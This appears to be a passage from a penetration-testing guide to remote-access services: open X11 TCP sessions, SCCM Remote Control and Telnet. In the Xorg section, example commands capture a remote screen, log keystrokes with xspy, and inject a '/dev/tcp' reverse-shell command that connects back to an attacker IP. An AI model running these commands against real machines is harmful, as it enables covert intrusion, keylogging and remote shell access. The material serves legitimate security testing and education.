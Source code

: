 ### Xorg

The Xorg Foundation create and maintain's the widely deployed X11 windowing system used in most \*nix environments. Most administrators are aware that the client-server model allows forwarding of X-sessions over SSH tunnels; however, when configured to allow TCP sessions, the X-session can be attached to remotely. The default X11 configuration was changed to disallow TCP sessions several years ago, but we still see it from time to time. If you see TCP 6000+N open, you can likely execute code on that machine or remotely log keystrokes.

**Port:** 6000+N/TCP, \(or 22/TCP via SSH\)

**Tools:** xspy, xwatchwin, xwd, xvkbd, ssh, MSF, xrdp.py

**Example screenshot:**

```text
xwd -root -screen -silent -display 192.168.37.146:0 > screenshot.xwd
```

  
**Example keyboard injection:**

```text
xvkbd -no-repeat -no-sync -no-jump-pointer -remote-display 192.168.37.146:0 -text "/bin/bash -i > /dev/tcp/192.168.37.101/8000<&1 2>&1\r"
```

  
**Example remote keylog:**

```text
xspy 192.168.1.1
```

### System Center Configuration Manager \(SCCM\) Remote Control

SCCM is often used in enterprise networks to handle patch deployment for workstations and servers, as well as help facilitate installation of applications to groups of managed systems. When configured through the administration console, managed systems can be configured to start a remote control service \(System Center Remote Control\). While it provides similar functionality to RDP, it does not leverage Terminal Services, and in certain configurations can allow full control of a remote system without alerting logged-on users to the session hijack. 

**Port:** 2701/TCP

**Tools:** [CmRcViewer.exe](https://dolosgroup.io/s/RemoteControl.zip), SCCM Admin console

Note: If you are not inclined to download a random executable from the Internet\(duh\), the SCCM Remote Control client can be found at _C:\Program Files \(x86\)\Microsoft Configuration Manager\AdminConsole\bin\i386\_ after installing SCCM. Be warned, setting up an SCCM lab is unfathomably complicated.

### Telnet

Modern operating systems no longer leverage telnet, but we still see it on almost every pentest on embedded devices, or legacy systems. The old skool command line console access operates as a cleartext protocol and has largely been replaced by SSH. 
